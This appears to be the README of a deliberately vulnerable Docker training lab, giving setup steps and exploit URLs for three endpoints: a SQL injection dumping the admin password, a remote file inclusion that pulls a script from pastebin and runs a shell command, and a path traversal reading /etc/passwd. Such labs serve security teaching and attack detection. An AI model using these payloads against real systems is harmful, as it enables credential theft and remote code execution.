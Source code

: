 # Alpha and Beta app #

Before you run alpha and beta app, please install docker and docker-compose.

### How to run Alpha and Beta app? ###

* Clone this repository
* Run `sudo docker-compose build`
* Run `sudo docker-compose up`
* Run `sudo docker-compose exec beta bash`
* Inside bash shell of beta app, run:

  ```
  /app# flask db upgrade
  /app# exit
  ```
### Endpoint Alpha ###
* Vulnerable SQL Injection

  [http://172.17.0.1:65412/?id=2](http://172.17.0.1:65412/?id=2)
  
  How to exploit : 

  [http://172.17.0.1:65412/?id=2%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20(SELECT%20id%7C%7C%27%2C%27%7C%7Cusername%7C%7C%27%2C%27%7C%7Cpassword%20FROM%20users%20WHERE%20username%3D%27admin%27)](http://172.17.0.1:65412/?id=2%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20(SELECT%20id%7C%7C%27%2C%27%7C%7Cusername%7C%7C%27%2C%27%7C%7Cpassword%20FROM%20users%20WHERE%20username%3D%27admin%27))

* Vulnerable Remote File Inclusion

  [http://172.17.0.1:65412/?include=](http://172.17.0.1:65412/?include=)

  How to exploit :

  [http://172.17.0.1:65412/?include=http%3A%2F%2Fpastebin.com%2Fraw.php%3Fi%3D6VyyNNhc&cmd=ifconfig](http://172.17.0.1:65412/?include=http%3A%2F%2Fpastebin.com%2Fraw.php%3Fi%3D6VyyNNhc&cmd=ifconfig)

* Vulnerable Path Traversal

  [http://172.17.0.1:65412/?path=](http://172.17.0.1:65412/?path=)

  How to exploit :

  [http://172.17.0.1:65412/?path=..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd](http://172.17.0.1:65412/?path=..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd)

  
### Endpoint Beta ###

  To get list of attacks activity:

  [http://172.17.0.1:10000/attacks](http://172.17.0.1:10000/attacks)


Note: 

IP <b>172.17.0.1</b> is Docker IP. <br>Please adjust with your own Docker IP.
